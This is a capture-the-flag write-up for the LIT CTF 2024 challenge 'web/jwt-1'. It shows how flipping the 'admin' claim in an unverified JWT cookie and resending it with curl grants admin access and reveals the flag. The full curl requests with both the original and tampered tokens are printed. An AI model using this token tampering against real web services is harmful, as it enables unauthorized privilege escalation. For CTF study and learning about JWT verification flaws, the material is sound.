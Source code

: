 # LIT CTF 2024: web/jwt-1
**Title:** web/jwt-1

**Description:** I just made a website. Since cookies seem to be a thing of the old days, I updated my authentication! With these modern web technologies, I will never have to deal with sessions again. Come try it out at [http://litctf.org:31781/](http://litctf.org:31781/).
## Solution:
The description hints at the use of cookies for authentication. Here’s how you can solve it:

### Step 1: Obtain the Cookie:
Visit the site, sign up, log in, and try clicking the "GET FLAG" button. You’ll receive an `Unauthorized` response.

### Step 2: Analyze the Request:
Use your browser’s Developer Tools to inspect the request sent to [http://litctf.org:31781/flag](http://litctf.org:31781/flag). Here’s a sample `curl` command for reference:

```bash
curl "http://litctf.org:31781/flag" ^
  -H "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7" ^
  -H "Accept-Language: en-US,en;q=0.9,en-IN;q=0.8" ^
  -H "Cache-Control: max-age=0" ^
  -H "Connection: keep-alive" ^
  -H "Cookie: token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJuYW1lIjoic2hvaWlobzIiLCJhZG1pbiI6ZmFsc2V9.VPpGN6m^%^2BrNwhg^%^2BDSZ^%^2BGYDYV24eDA1ygIvW^%^2Fu50x^%^2FcSY^" ^
  -H "Referer: http://litctf.org:31781/" ^
  -H "Upgrade-Insecure-Requests: 1" ^
  -H "User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36 Edg/127.0.0.0" ^
  --insecure
```

### Step 3: Modify the JWT Token:
Use an online tool like [jwt.io](https://jwt.io/) to decode and modify the JWT token. Change the `admin` field from `false` to `true`. 

By tampering with the JWT, you can gain the necessary authorization to access the flag. 

### Step 4: Send the request with tampered JWT:
For this I used an online tool [Run Curl Commands Online (reqbin.com)](https://reqbin.com/curl) and sent the request:
```bash
curl "http://litctf.org:31781/flag" ^
  -H "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7" ^
  -H "Accept-Language: en-US,en;q=0.9,en-IN;q=0.8" ^
  -H "Cache-Control: max-age=0" ^
  -H "Connection: keep-alive" ^
  -H "Cookie: token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJuYW1lIjoic2hvaWlobzIiLCJhZG1pbiI6dHJ1ZX0.REbM2gVSy32YPjfXU-VeWGG4xTfdAn3RkFRiRtJHV3E" ^
  -H "Referer: http://litctf.org:31781/" ^
  -H "Upgrade-Insecure-Requests: 1" ^
  -H "User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36 Edg/127.0.0.0" ^
  --insecure
```

And the response we got is our flag: `LITCTF{o0ps_forg0r_To_v3rify_1re4DV9}`
